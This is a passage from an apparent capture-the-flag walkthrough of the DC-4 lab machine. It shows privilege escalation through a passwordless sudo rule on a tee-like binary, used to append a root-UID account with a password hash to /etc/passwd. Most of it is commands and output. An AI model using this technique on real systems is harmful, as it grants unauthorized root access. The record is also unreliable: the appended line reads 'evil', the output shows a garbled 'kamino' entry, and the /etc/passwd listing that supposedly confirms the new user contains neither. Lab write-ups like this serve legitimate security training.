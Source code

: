 ## Switch to User Charles

```bash
jim@dc-4:~$ su charles

```

## Check Sudo Permissions for Charles

```bash
charles@dc-4:/home/jim$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee

```

## Exploit Sudo Permissions on /usr/bin/teehee

According to GTFOBins we can exploit _tee_ which we can check to see if _teehee_ is the same binary.

![gtfobins](../../../assets/images/ctfs/proving_grounds/dc_4/gtfobins.png)

```bash
charles@dc-4:/home/jim$ echo "evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash" | sudo /usr/bin/teehee -a /etc/passwd
kamino:$/UTMXpPC/m1P.t9l.:0:0:kamino:/home/kamino:/bin/bash

```

Checking _/etc/passwd_ we have added the _evil_ user with root privileges.

```bash
charles@dc-4:/home/jim$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
nginx:x:107:111:nginx user,,,:/nonexistent:/bin/false
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
```
